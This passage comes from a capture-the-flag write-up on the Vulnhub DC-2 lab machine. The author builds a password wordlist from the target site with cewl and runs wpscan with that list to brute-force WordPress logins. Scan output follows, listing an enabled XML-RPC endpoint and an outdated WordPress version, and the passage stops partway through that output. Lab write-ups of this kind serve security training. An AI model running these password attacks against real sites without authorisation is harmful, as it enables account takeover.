 There is a hint in the first flag for a tool `cewl`. Time to use cewl to create a custom wordlist.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ cewl http://dc-2 > password.txt

┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ wc password.txt                         
 239  245 1763 password.txt

```
So, since we got now some passwords generated from the website with cewl, it is time to run wpscan against the target.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ wpscan --url http://dc-2 -P password.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]
[+] URL: http://dc-2/ [10.0.2.31]
[+] Started: Sun Mar 26 20:16:20 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
```